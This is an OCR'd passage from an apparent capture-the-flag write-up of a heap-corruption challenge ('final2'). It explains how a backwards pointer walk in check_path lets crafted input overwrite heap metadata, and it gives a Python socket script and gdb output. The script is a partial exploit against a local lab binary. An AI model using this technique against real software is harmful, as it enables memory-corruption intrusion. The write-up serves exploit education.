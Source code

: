 If we're able to find `ROOT`, we will attempt to find the previous occurrence of `'/'` .

We do this by just going backwards from from `ROOT` and find the previous `'/'`.

We then copy everything from after the last `'/'` stored in `p` to the previous `'/'` before `ROOT`.

```cpp
if(p)  {
	  start =  strstr(buf,  "ROOT")
      if(start) {
          while(*start != '/') start--;
          memmove(start, p, l);
      }
} // function ends
```

To better illustrate this:
  ```
  /ROOT_FILLER_/HELLO
  ```
turns into this:
```
 /HELLOILLER_/HELLO
 ```
 The exploit is that to find the  `'/'` before `ROOT`, instead of using `index`, we decrement  `start` , this could actually be before the buffer starts, and therefore could be part of the previous buffer. In between the previous buffer and the current buffer should be heap metadata that we can overwrite using the memory.
 
We could set up the heap like the following:
* First we place a `'/'`  at the end of the first buffer, the `...` should be some text that pads the total message size to 128.
`FSRD.../`
* Next, we can set up the second buffer such that `ROOT` appears before any `'/'`s. Then we have a `'/'` after the `ROOT`, which is directly followed by the bytes that we wish to overwrite the heap metadata with.
`FSRDROOT/NEW_HEAP_METADATA...`
* This means that before `check_path` is called on the the heap will look like this:
`FSRD.../ HEAP_METADATA FSRDROOT/NEW_HEAP_METADATA`
* The `check_path` call, the `NEW_HEAP_METADATA` will overwrite the `HEAP_METADATA`.

Let's try get a simple script set up that will overwrite the heap metadata:
```python
import struct
import socket

def pad_input(s, b):
       return s + (128 - (len(s) + len(b))) * "\x90" + b

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2993))

first = pad_input("FSRD",  "/")
second = pad_input("FSRDROOT", "/" + struct.pack("I", 0x12345678) * 4 )

s.send(first)
s.send(second)

```
We can set a breakpoint at the end of `check_path`, after the second call to `check_path`, we can inspect the heap.
```
Breakpoint 1, 0x0804bd46 in check_path (buf=0x4 <Address 0x4 out of bounds>) at final2/final2.c:30
30	in final2/final2.c
(gdb) x/50x 0x804e000
0x804e000:	0x00000000	0x00000089	0x44525346	0x90909090
0x804e010:	0x90909090	0x90909090	0x90909090	0x90909090
```